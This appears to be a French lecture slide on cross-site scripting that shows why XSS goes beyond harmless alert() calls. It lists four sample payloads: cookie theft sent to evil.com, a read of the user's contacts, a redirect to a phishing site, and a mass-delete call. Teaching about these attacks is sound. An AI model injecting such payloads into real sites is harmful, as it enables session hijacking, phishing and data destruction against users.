

# Cross-site scripting (XSS)
Les ALERT sont inoffensives, qu’en est-il de ces scripts ?
--- 1 ---
new Image().src='http://evil.com/steal?cookies='+document.cookie;

  --- 2 ---
$.get('/my/contacts', function (response) { … });

---3 ---
window.location.href=”http://phishing.com”;

---4---
GMAIL.deleteAll();
22